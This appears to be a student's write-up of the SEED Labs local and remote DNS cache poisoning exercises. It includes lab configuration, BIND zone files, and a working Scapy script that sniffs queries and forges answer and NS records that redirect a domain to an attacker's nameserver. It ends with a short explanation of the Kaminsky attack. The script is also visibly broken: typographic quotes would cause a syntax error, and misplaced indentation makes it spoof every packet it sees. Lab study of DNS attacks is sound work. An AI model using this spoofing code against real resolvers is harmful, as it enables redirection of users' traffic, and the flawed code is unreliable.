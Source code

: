 # DNS Poisoning Attack Lab

## Lab Link: 

https://seedsecuritylabs.org/Labs_20.04/Networking/DNS/DNS_Local/
https://seedsecuritylabs.org/Labs_20.04/Files/DNS_Remote/DNS_Remote.pdf

## Local DNS Poisoning Attack

### Summary of the DNS Configuration

We need to configure the Local DNS server, user machine and the Attacker's Nameserver.

#### Local DNS Server

To simplify the attack, we need to change some default configurations:

- fix the source port number to 33333

- Turning off DNSSEC

- Dump DNS cache by setting dump-file "/var/cache/bind/dump.db";

- Forwarding the attacker32.com zone

#### User Machine

Change the resolver configuration file (/etc/resolv.conf) of the user machine to:

```
nameserver 10.9.0.53
```

#### Attacker’s Nameserver.

This machine hosts two zones, one of the attacker's legitimate zone, the other a fake zone.
```
zone "attacker32.com" {
	type master;
	file "/etc/bind/attacker32.com.zone";
};

zone "example.com" {
	type master;
	file "/etc/bind/example.com.zone";
};
```

### Query Different NameServers for IP address of a domain

```bash
// Send the query to our local DNS server, which will send the query
// to example.com’s official nameserver.
$ dig www.example.com
// Send the query directly to ns.attacker32.com
$ dig @ns.attacker32.com www.example.com
```

###  The Attack Tasks

DNS is an example of "indirect". The main objective of DNS attacks on a user is to redirect the user to another machine B when the user tries to get to machine A using A’s host name.

#### DNS Cache Poisoning Attack

```python
#!/usr/bin/env python3
from scapy.all import *
import sys
NS_NAME = "example.com"
def spoof_dns(pkt):
	if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode(’utf-8’)):
		print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
	ip = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Create an IP object
	udp = UDP(dport=pkt[UDP].sport, sport=53) # Create a UPD object
	Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', rdata='10.9.0.153', ttl=259200) # Create an aswer record
	NSSec = DNSRR(rrname=NS_NAME, type="NS", rdata='ns.attacker32.com', ttl=259200)
	dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qdcount=1, qr=1, ancount=1, nscount=1, an=Anssec, ns=NSSec) # Create a DNS object
	spoofpkt = ip/udp/dns # Assemble the spoofed DNS packet
	send(spoofpkt)

myFilter = "udp and src host 10.9.0.53 and dst port 53" # Set the filter
pkt=sniff(iface='br-6c84ac8235f8', filter=myFilter, prn=spoof_dns)
```

If it doesn't work, considering slowing down your network connection by:

```bash
// Delay the network traffic by 100ms
# tc qdisc add dev eth0 root netem delay 100ms
// Delete the tc entry
# tc qdisc del dev eth0 root netem
// Show all the tc entries
# tc qdisc show dev eth0
```

Also don't forget to flush the DNS:

```bash
# rndc flush
# rndc dumpdb -cache
# cat /var/cache/bind/dump.db
```

Note that if we reply with a fake zone 'google.com' to AUTHORITY SECTION for example, the dns client actually won't cache it. That makes sense. Similarly for entries in ADDITIONAL SECTION.

## Remote DNS Poisoning Attack

In this remote attack lab, packet sniffing is not possible, so the attack becomes much more challenging than the local attack.

The difficulty is mainly caused by the fact that the transaction ID in the DNS response packet must match with that in the query packet. Because the transaction ID in the query is usually randomly generated, without seeing the query packet, it is not easy for the attacker to know the correct ID.

Another barries is the cache effect. In reality, if the attacker is not fortunate enough to make a correct guess before the real response packet arrives, correct information will be cached by the DNS server for a while. 

The Kaminsky Attack:

The crucial observation of Kaminsky is that we can ping a non-existing sub-domain of example.com to crush the caching effect, and put the attacker machine's nameserver inside the Authority Section in the response. In this way, even if the chance of beating the actual dns lookup response is slim, we can continue this process without waiting. Note that when we poison the DNS cache of the dns server, any address the host tries to look up will go to the attacker's nameserver. 

How do we verify that the attack succeeds? We can just do a dns lookup to the victim nameserver and check if we have an answer entry pointing to the attacker's nameserver.

